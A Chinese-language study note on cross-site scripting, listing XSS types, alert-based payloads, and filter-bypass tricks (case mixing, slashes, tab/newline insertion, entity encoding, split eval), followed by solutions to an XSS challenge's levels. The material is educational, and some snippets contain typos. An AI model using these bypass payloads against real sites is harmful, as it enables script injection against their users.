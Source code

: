 xss类型：

```javascript
<script>alter(/xss/)<script>
```

反射型

存储型

DOM型



伪协议：

```javascript
<a href="javascript:alert(/xss/)">haha</a>
```

img在ie6下测试成功

```javascript
<img src="javascript:alert('xss')">
```

事件触发：

```javascript
鼠标悬停
<img src='./smile.jpg' onmouseover='alert(/xss/)'>
点击文本框
<input type="text" onkeydown="alert(/xss)">
<input type="text" onkeyup="alert(/xss)">
<input type="text" onclick="alert(/xss)">
<img src='#' onerror="alert(/xss)">
```

利用CSS跨站（old）:

ie6下测试通过

行内样式

```html
<div style="background-image:url(javascript:alert(/xss/))"
```

页内样式

```css
<style>Body{background-image:url(javascript:alert(/xss/))}</style>
```

外部样式

```
<link rel="stylesheet" type="text/css" href="./xss.css"><div>hello</div>
```

```html
<svg onload="alert(/xss/)">
```

```
<input onfocus=alert(/xss) autofocus>
```



大小写转换

可以将payload进行大小写转化

```html
<Img sRc='#' Onerror="alert(/xss/)" />
<a hRef="javaScript:alert(/xss/)">clike me</a>
```



引号的使用

HTML语言中对引号的使用不敏感，但是某些过滤函数是“锱铢必较”。

```
<img src="#" onerror="alert(/xss/)"/>
<img src='#' onerror='alert(/xss/)'/>
<img src=# onerror=alert(/xss/) />
```

/替代空格

可以利用左斜线替代空格

```
<Img/sRc='#'/Onerror='alert(/xss/)'/>
```



回车

我们可以在一些位置添加Tab和回车符，来绕过关键字检测

```javascript
<Img/sRc='#'/Onerror	='alert(/xss/)'/>
<A hREf="javas
cript:alert(/xss/)">click me</a>
```



对标签属性值进行转码

字母	ASCII码	十进制编码	十六进制编码

a		97				`&#97;`			`&#x61;`

e		101			`&#101;`			'& #x65;'

Tab &#9

换行 &#10

回车 &#13

S0H &#01

STX &#02

```
<A hREf="&#01;j&#97;v&#x61s&#9;c&#10;r&#13;ipt:alert(/xss/)"
```

拆分跨站

```
<script>z='alert'<script>
<script>z=z+'(/xss/)'<script>
<script>eval(z)<script>
```



XSS通关挑战

```javascript
<script script "'OOnn>
```

第一关

```
<script>alert(/xss/)</script>
```

第二关

```
hello"><img onerror='alert (/xss/)'src="#
```

第三关

```
a' onmouseover='alert(/xss/)
```

第四关

```
a" onmouseover="alert(/xss/)
```

第五关

```
"><a href="javascript:alert(/xss/)">click</a>
```

第六关

> 对herf进行了过滤，但是没有对大小写过滤

```
"><a hRef="javascript:alert(/xss/)">click</a>
```

第七关

> 只过滤一次on

```
" oonnmouseover="alert(/xss/)"
```

第八关

```
javas&#x63;ript:alert(/xss/)
```

第九关

```
javas&#x63;ript:alert('http://')
```

第十关

```
?t_sort=aaa" type="button" onclick="javascript:alert(/xss/)
```

第十一关

第二关

第二关


